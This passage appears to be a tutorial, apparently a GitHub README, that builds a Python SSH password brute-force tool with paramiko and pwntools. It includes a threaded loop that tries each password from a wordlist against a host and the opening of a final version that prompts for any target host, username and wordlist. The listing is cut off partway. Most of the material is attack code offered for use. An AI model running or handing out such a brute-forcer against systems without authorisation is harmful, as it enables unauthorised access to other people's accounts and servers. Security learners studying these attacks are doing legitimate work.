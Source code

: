 ```python
            response.close()
            found = True
            return password
        response.close()
    except paramiko.ssh_exception.AuthenticationException:
        log.failure(f"[X] Invalid password: '{password}'")
    except (paramiko.ssh_exception.SSHException, EOFError):
        sleep(retry_delay)
    return None

# reads passwords.txt
with open("passwords.txt", "r") as password_list:
    passwords = [line.strip() for line in password_list]

# threaded password testing
with ThreadPoolExecutor(max_threads) as executor:
    futures = {executor.submit(test_password, password): password for password in passwords}
    for future in as_completed(futures):
        result = future.result()
        if result:
            break

log.info("[*] Passwordlist exhausted!")
```

This is the completed version of the script. It is more efficient and user-friendly than the previous version. The output should show each password attempted one by one, and a success or fail message for each.  We will now test to see if there are any unexpected logic or syntax errors.

### Testing v2.0

![Screenshot](picture18.png)

The program successfully identifies the password in the wordlist, and it was much faster then the orginal program. Now we can move onto user input. 

## Improveing the Code: Adding User Input

The final version of the script will allow for user input to specify the host, username, and wordlist file. This will make the script more versatile and user-friendly. Thankfully, adding user input is very easy in this case. The only update that needs to be made is adding the input argument to the variables host, username, and wordlist_path. 

The invalid passwords message has been removed to clean the output, and additional error checking such as the wordlist not being found, is added.

```python
from pwn import *
import paramiko
from time import sleep
from concurrent.futures import ThreadPoolExecutor, as_completed

# variables with user input
host = input("[*] Enter target host (IP or domain): ")
username = input("[*] Enter username to test: ")
wordlist_path = input("[*] Enter path to password wordlist: ")

# global variables
attempts = 0
found = False
max_threads = 5
retry_delay = 2

# test password function
```

[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)